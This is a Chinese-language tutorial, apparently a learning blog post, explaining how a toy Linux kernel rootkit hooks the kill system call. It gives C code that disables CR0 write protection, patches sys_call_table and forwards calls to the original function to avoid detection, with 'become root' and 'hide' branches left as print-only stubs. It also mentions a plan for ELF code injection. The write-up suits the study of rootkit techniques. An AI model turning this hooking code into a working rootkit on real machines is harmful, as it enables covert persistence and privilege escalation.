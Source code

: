 ## Overview：toy1的工作原理
这里简要过一遍流程，以便阅读后续内容和toy1源码时方便理解。

具体来说，toy1采用了hook的方式工作，这里简要介绍这边的hook是什么意思。

toy1通过内核函数kallsyms_lookup_name找到sys_call_table，而sys_call_table是一个存放了很多很多系统调用地址的数组，参考下文：

```C
#undef __NR_syscalls
#define __NR_syscalls 451

/*
 * 32 bit systems traditionally used different
 * syscalls for off_t and loff_t arguments, while
 * 64 bit systems only need the off_t version.
 * For new 32 bit platforms, there is no need to
 * implement the old 32 bit off_t syscalls, so
 * they take different names.
 * Here we map the numbers so that both versions
 * use the same syscall table layout.
 */
```
摘自https://elixir.bootlin.com/linux/latest/source/include/uapi/asm-generic/unistd.h#L890。

特别的，toy1利用了sys_kill函数，其函数地址存放在sys_call_table[__NR_kill]之中。toy1将修改这个函数地址指向别处（比如我们自己定义的hack_kill）函数，在完成了我们自己定义的部分功能后，再正常执行原本sys_kill的功能，这样加装该rootkit后，至少在功能上不会出现太大的问题。

这便是全部的流程，下面对各个细节做简要的解释。

## 修改syscall table内容
x86架构下，syscall_table对应的内存受到了系统的保护。寄存器CR0被设置以保护内存，因此需flip其第16位数据以使得内存不再受到保护。

https://jm33.me/we-can-no-longer-easily-disable-cr0-wp-write-protection.html

具体代码如下，利用inline assembly来解除寄存器cr0对内存的保护。可以参考这个文档：

https://gcc.gnu.org/onlinedocs/gcc/Extended-Asm.html
```
"mov %0, %%cr0": "+r"(val), "+m"(__force_order));
```
该行表示以read+write的方式将val的内容以%0的方式借代，并赋值给cr0寄存器，并将值同时存放到__force_order对应的内存地址之中。注释中已经点名，之所以这么做是防止reorder时编译器的读写优化，因此找一个dummy memory position存放。

val的赋值仅需了解cr0的第十六位在翻转即可，该段代码解析完成。
```C
static inline void write_cr0_forced(unsigned long val) {
    unsigned long __force_order;

    asm volatile(
        "mov %0, %%cr0"
        : "+r"(val), "+m"(__force_order));
    // prevent read from being reordered with respect to writes, use a dummy operand.
}

// the 16th bit of cr0 should be flipped if we want to change the memory info. 
static void unprotect_memory(void) {
    write_cr0_forced(read_cr0() & (~ 0x10000));
    printk(KERN_INFO "protected memory\n");
}

static void protect_memory(void) {
    write_cr0_forced(read_cr0() | (0x10000));
    printk(KERN_INFO "protected memory\n");
}
```
以此，我们能够进行对sys_call_table中的内容进行修改。

## 一些版本限定：
本次对于开发版本做了部分限定。在这里定义了部分宏来帮忙处理此事。
```C
#ifdef CONFIG_X86_64

#if LINUX_VERSION_CODE >= KERNEL_VERSION(4, 17, 0)
#define PTREGS_SYSCALL_STUB 1
typedef asmlinkage long (*ptregs_t)(const struct pt_regs *regs);
static ptregs_t orig_kill;
#else
typedef asmlinkage long (*orig_kill_t)(pid_t pid, int sig);
static orig_kill_t orig_kill;
#endif
#endif
```
假定开发环境为X86_64，且需判断kernel版本和4.17.0之间的大小关系。参考内容：

https://www.kernel.org/doc/html/v4.17/process/adding-syscalls.html

在这则post提到高版本内核在pt_regs中存放了相关的寄存器信息，且内核模块不能直接使用系统调用函数，如果需要调用需要参阅这个资料来检查寄存器的使用情况，特别的，toy1中盗用的是sys_kill函数。

https://syscalls64.paolostivanin.com/

而低版本则可以直接盗取相关参数直接运行函数，因此分情况讨论之。当然，这个我们后续再说。

在不同版本下分别用typedef定义了两个函数，实际上这就是我们替换sys_kill事先准备好的函数指针，可以看到后面的参数和我们先前提到的不同版本是呼应的。

## 找到syscall_table的位置以便调用
```C 
static unsigned long *get_syscall_table(void) {
    unsigned long * syscall_table;
    #if LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0)
        syscall_table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
    #else
        syscall_table = NULL;
    #endif

    return syscall_table;
}
```
这一部分代码是在前一版toy1中出现的，利用kallsyms_lookup_name内核函数找到了syscall_table的地址。
## hook操作
简要介绍一下hook函数的功能，其替换了sys_call_table中原本存放sys_kill系统调用位置的地址为我们自定义的函数hack_kill，这样，若接下来系统出现了sys_kill函数的系统调用，系统将会执行hack_kill。

与此同时，利用了store函数存放原本sys_kill函数的地址，以便sys_kill可以正常地执行。
```C
static int hook(void) {
    __sys_call_table[__NR_kill] = (unsigned long) &hack_kill;
    return 0;
}

static int store(void) {
    #if PTREGS_SYSCALL_STUB
        orig_kill = (ptregs_t)__sys_call_table[__NR_kill];
        printk(KERN_INFO "orig_kill table entry successfully stored\n");
    #else
        orig_kill = (orig_kill_t)__sys_call_table[__NR_kill];
        printk(KERN_INFO "orig_kill table entry successfully stored\n");
    #endif

    return 0;
}
```
## hack_kill自定义
此处我们简要解释hack_kill自定义函数。

注意到平常我们需要终止一个进程会采用类似于'kill -9 <pid>'之类的命令，而这个9，恰好是sys_kill中的sig，即信号部分（9代表SIGKILL）。因此hack_kill的工作就很明了了，若信号64或者63存在，捕获可能存在的信号并输出（这是hook帮助我们实现的自定义部分），最后执行原本的正常的sys_kill就可以了。

依照软件安全原理所述：出毛病最好不让你发现功能失效了，因此最后一步调用正常的sys_kill是相当自然的。
```C
enum signals {
    SIGSUPER = 64, // we just take this as an example.
    SIGINVIS = 63,
};

#if PTREGS_SYSCALL_STUB

static asmlinkage long hack_kill(const struct pt_regs *regs) {
    int sig = regs->si;

    if (sig == SIGSUPER) {
        printk(KERN_INFO "signal: %d == SIGSUPER: %d | become root\n", sig, SIGSUPER);
        return 0;
    } else if (sig == SIGINVIS) {
        printk(KERN_INFO "signal: %d == SIGINVIS: %d | hide itself/malware/etc\n", sig, SIGINVIS);
    }

    printk(KERN_INFO "======= hacked kill syscall =========");
    return orig_kill(regs);
}

#else

static asmlinkage long hack_kill(pid_t pid, int sig) {

    if (sig == SIGSUPER) {
        printk(KERN_INFO "signal: %d == SIGSUPER: %d | become root\n", sig, SIGSUPER);
        return 0;
    } else if (sig == SIGINVIS) {
        printk(KERN_INFO "signal: %d == SIGINVIS: %d | hide itself/malware/etc\n", sig, SIGINVIS);
    }
    printk(KERN_INFO "======= hacked kill syscall =========");
    return orig_kill(pid, sig);
}

#endif
```
## 其他思路：
py昨晚和我说了他的思路，他觉得'insmod rmmod'这样有点dinner，因此他打算能够在启动的时候修改进程文件的ELF，以此腾出空间注入自定义恶意代码。他自信能够做出来，不过咱还是做一些翻车的准备为妙。

rootkit的hook思路介绍完毕，大家可以利用toy1在适当的环境下玩耍了。我要开始看第二个toy了。